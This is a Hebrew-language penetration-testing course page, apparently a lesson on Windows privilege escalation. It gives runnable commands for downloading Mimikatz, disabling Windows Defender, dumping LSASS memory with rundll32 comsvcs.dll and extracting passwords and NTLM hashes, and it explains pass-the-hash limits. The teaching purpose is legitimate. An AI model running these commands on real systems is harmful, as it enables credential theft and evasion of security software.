

repository: AmitPinchasi/amittech · page: בודק-חדירות/3 - תקיפת ווינדוס/3.2 - הסלמת הרשאות בווינדוס/3.2 - הסלמת הרשאות בווינדוס/index.html · generator: mkdocs


ב3 הרצאות הבאות נראה המון שיטות להסלים הרשאות בווינדוס, תעדו הכל, נסו בעצמכם ועקבו אחרי.

#### **גניבת סיסמאות והאשים מ-LSASS**

הprocess הLSASS (Local Security Authority Subsystem Service) הוא process בWindows ששומר בזיכרון מידע על כניסות משתמשים- כלומר, אם יש לנו גישה לקבל תמונה מהזכרון של הprocess (דאמפ)- נוכל לשלוף ממנו סיסמאות של משתמשים והאשים.

##### **שליפת סיסמאות עם Mimikatz**

הכלי Mimikatz מאפשר לנו לשלוף סיסמאות בטקסט גלוי מ-LSASS אם יש לנו הרשאות מתאימות.

התקינו אותו:
```powershell
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz.exe" -OutFile "mimikatz.exe"
```
שימו לב, שהאנטיווירוס של ווינדוס- דפנדר קופץ על הכלי, אז כבו אותו. 

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

הפקודה `sekurlsa::logonpasswords` תציג את כל הסיסמאות וההאשים השמורים בזיכרון.

##### ה**Dump של Hashes מהמערכת**

אם אין לנו אפשרות להריץ Mimikatz ישירות, ניתן ליצור Dump של LSASS ולהוציא ממנו מידע מאוחר יותר:

```powershell
tasklist /fi "imagename eq lsass.exe"
rundll32.exe comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

ואז לנתח את ה-Dump עם Mimikatz:

```powershell
mimikatz.exe "sekurlsa::minidump C:\lsass.dmp" "sekurlsa::logonpasswords" exit
```

#### מתקפת **Pass-the-Hash (PTH)**

אם הצלחנו לגנוב את ה-NTLM hash של משתמש, ניתן להשתמש בו לאימות במקום הסיסמה. 
נרחיב בהמשך הקורס יותר על המתקפה, אבל כרגע תשמרו לכם מאחורי הראש, שבווינדוס אם מגנון האימתות המשומש הוא NTLM (שזו הסיטואציה ברוב המוחלט של המקרים) ברגע שיש לכם ntlm hash של סיסמא של משתמש, תוכלו להשתמש בה כדי להתחזות למשתמש.
מוזמנים לחזור לקורס רשתות שבו הסברנו על nltm, איך הוא עובד ומדוע באמצעות הhash אנחנו יכולים לעשות כל מה שאנחנו רוצים.

הבעיה היא שגם אחרי שניצור סשן כמשתמש אחר עם pth לא בדיוק יהיו לנו כל ההרשאות שלו.
#### **מה קורה כשאתה עושה PTH עם Mimikatz?**

כשאתה מבצע PTH, אתה בעצם משתמש ב-NTLM hash של המשתמש כדי לפתוח session בתורו. זה יוצר **גישה חיצונית (network logon)**, ולא **גישה אינטראקטיבית (interactive logon)**. בגלל זה, אם תעשה `whoami` אחרי PTH, ייתכן שעדיין תראה את המשתמש המקורי שלך ולא את המשתמש שהתחזית אליו.

הבעיה היא שהסשן שנוצר דרך PTH **לא יכיל טוקן מתאים להפעלת processes מקומיים** עם הרשאות מוגברות. PTH בעיקר מאפשר לך לגשת למשאבי רשת (למשל, `C$` או `IPC$`), אבל הוא **לא** מאפשר לך ליצור process מקומי עם טוקן של המשתמש שהתחזית אליו.

כך שאם הגעתם לשליטה על process עם משתמש אחר, לא תמיד יהיה לכם טוקן מתאים כדי ליצור processes חדשים. ובשביל זה נרצה לחפש process עם טוקן חזק- ולהתעלק עליו. (כי לזה בדרך כלל יש לנו הרשאות)
